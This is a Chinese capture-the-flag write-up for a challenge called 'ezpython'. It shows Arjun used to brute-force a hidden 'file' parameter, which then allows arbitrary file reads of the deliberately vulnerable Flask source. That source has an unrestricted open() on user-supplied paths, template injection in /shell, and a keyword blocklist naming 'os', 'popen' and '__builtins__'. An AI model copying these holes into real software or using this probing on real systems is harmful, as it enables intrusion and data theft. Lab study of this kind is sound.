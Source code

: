 ## ezpython

第一步找get参数就给我卡住了，没想到是通过Arjun工具爆破([链接:https://github.com/s0md3v/Arjun](https://github.com/s0md3v/Arjun))。在Windows装了好久没装上，好像是因为版本问题，丢进Kali里面开虚拟环境:`pip install Arjun`就可以了。

扫描：`arjun -u http://ctf.mardle.cn:35317`或者指定`GET`方式扫描：`arjun -u http://ctf.mardle.cn:35317/ -m GET`

具体使用可以见官方文档[https://github.com/s0md3v/Arjun/wiki/Usage](https://github.com/s0md3v/Arjun/wiki/Usage)

找到参数名为:file.先随便构造一个`?file=a`，回显`Error reading file: [Errno 2] No such file or directory: 'a'`,因此推测这个参数可以读取源码内容。结合题目名称这个网站大概是利用python的flask框架搭的，那直接访问`?file=app.py`得到源码回显：
```python
from flask import Flask, request, render_template_string 
from flask_limiter import Limiter
from flask_limiter.util  import get_remote_address 
import waf 
app = Flask(__name__) 
limiter = Limiter( get_remote_address, app=app, default_limits=["300 per day", "75 per hour"] ) 
@app.route('/') 
@limiter.exempt 
def index(): 
    file_path = request.args.get('file') 
    if file_path and "proc" in file_path: 
        return "只过滤了proc，别想用这个了，去读源码", 200 
    if file_path: 
        try: 
            with open(file_path, 'r') as file:
                file_content = file.read() 
                return f"{file_content}" 
        except Exception as e: 
            return f"Error reading file: {e}" 
    return "Find the get parameter to read something" 
@app.route('/shell') 
@limiter.limit("10 per minute") 

def shell(): 
    if request.args.get('name'): 
        person = request.args.get('name') 
        if not waf.waf_check(person): 
            mistake = "Something is banned" 
            return mistake 
        template = 'Hi, %s' % person 
        return render_template_string(template) 
    some = 'who you are?' 
    return render_template_string(some) 
@app.errorhandler(429) 
def ratelimit_error(e): 
    return "工具？ 毫无意义，去手搓", 429 

if __name__ == '__main__': 
    app.run(debug=False, host='0.0.0.0', port=8000)
```
看到有`import waf`，把`waf.py`也读出来：`?file=waf.py`.
```python
def waf_check(value): 
    dangerous_patterns = ['os', 'set', '__builtins__', '=', '.', '{{', '}}', 'popen', '+', '__'] 
    for pattern in dangerous_patterns: 
        if pattern in value: 
            return False 
    return True
```
